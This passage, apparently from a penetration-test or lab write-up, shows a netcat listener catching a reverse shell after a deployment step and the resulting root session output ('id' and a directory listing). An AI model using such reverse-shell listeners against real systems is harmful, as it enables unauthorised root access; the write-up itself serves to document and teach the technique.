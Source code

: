 ![](assets/deploy.png)

Once this is done we get shell on main environment. 

```bash
nc -lvnp 1234
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from ::1.
Ncat: Connection from ::1:35994.
(environment) id
id
uid=0(root) gid=0(root) groups=0(root)
(environment) ls -al / | head
ls -al / | head
total 20
dr-xr-xr-x  18 root root  257 Apr 12 15:26 .
dr-xr-xr-x  18 root root  257 Apr 12 15:26 ..
-rw-r--r--   1 root root    0 Apr 12 15:26 .autorelabel
lrwxrwxrwx   1 root root    7 Mar 16 01:51 bin -> usr/bin
dr-xr-xr-x   4 root root 4096 Mar 16 01:52 boot
drwxr-xr-x  15 root root 2820 Apr 12 15:26 dev
drwxr-xr-x  83 root root 8192 Apr 12 15:27 etc
drwxr-xr-x   3 root root   22 Apr 12 15:26 home
lrwxrwxrwx   1 root root    7 Mar 16 01:51 lib -> usr/lib
```

